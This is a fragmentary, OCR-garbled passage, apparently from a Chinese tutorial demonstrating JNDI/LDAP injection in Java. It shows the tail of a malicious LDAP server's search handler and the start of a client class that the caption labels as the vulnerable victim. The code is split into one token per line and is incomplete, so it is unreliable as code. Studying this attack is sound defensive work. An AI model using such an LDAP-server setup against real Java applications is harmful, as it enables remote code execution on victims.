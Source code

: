               
result  
.  
sendSearchEntry  
(  
e  
);  
  
              
result  
.  
setResult  
(  
new  
  
LDAPResult  
(  
0,   
ResultCode  
.  
SUCCESS  
));  
  
          
}            
  
      
}            
  
}  
  
   
  
   
  
   
  
客户端（LDAPClient.java）代码，客户端代表存在漏洞的受害端。  
  
package  
  
jndi_ldap_injection  
;  
  
  
import  
  
javax  
.  
naming  
.  
InitialContext  
;  
  
import  
  
javax  
.  
naming  
.  
NamingException  
;  
  
